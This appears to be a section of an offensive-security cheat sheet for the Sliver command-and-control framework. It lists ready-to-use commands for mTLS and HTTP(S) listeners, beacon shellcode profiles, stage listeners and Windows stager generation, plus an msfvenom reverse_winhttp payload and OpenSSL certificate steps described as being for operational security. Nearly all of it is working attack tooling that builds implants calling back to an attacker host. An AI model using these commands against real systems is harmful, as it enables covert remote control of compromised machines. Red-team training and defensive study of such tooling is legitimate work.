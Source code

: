 #### 4.3.2 - Usage

##### 4.3.2.1 - Syntax

* Note: Any listener will work the only detail you should pay attention on the `stage-listener` sliver command

`sliver > mtls -L <IP> -l 4488`

`sliver > profiles new [beacon] [-S 5] [-J 10] -m <IP>:4488 -l -a x64 -o windows -f shellcode stager-shellcode`

`sliver > stage-listener -u <scheme>://<IP>:8080 -p stager-shellcode`

`sliver > generate stager -L <IP> -l <PORT> -r <tcp | http | https> -a <x64 | x86> -o <windows | linux | osx> -f <format> -s /path/to/shellcode`

##### 4.3.2.2 - TCP

`sliver > mtls -L <IP> -l 4488`

`sliver > profiles new -m <IP>:4488 -l -a x64 -o windows -f shellcode stager-shellcode`

`sliver > stage-listener -u tcp://<IP>:8080 -p stager-shellcode`

`sliver > generate stager -r tcp -L <IP> -l 8080 -a x64 -o windows -f raw -s staged-sliver.bin`

##### 4.3.2.3 - HTTP

`sliver > https -L <IP> -l 4488`

`sliver > profiles new beacon -b https://<IP>:4488 -S 5 -J 10 -l -a x64 -o windows -f shellcode stager-shellcode`

`sliver > stage-listener -u http://<IP>:8080 -P -p stager-shellcode`

`sliver > generate stager -r http -L <IP> -l 8080 -a x64 -o windows -f raw -s sliver-http-stager.bin`

* Or you can generate it with `msfvenom`

`$ msfvenom -p windows/x64/custom/reverse_winhttp lhost=<IP> lport=8080 luri=/shellcode.woff -f raw -o sliver-http-stager.bin`

##### 4.3.2.4 - HTTPS

1. Use custom TLS key and certificate (this is optional but recommended for OPSEC)

* Encrypted TLS key and certification

`$ openssl req -x509 -newkey rsa:4096 -keyout keyfile.pem -out certificate.pem -sha256 -days 365`

`$ openssl x509 -in certificate.pem -text -noout`

`$ openssl rsa -in keyfile.pem -check > key.pem`

* Non-encrypted TLS key and certification

`$ openssl req -new -x509 -keyout key.pem -out certificate.pem -days 365 -nodes`

`sliver > mtls -L <IP> -l 4488`

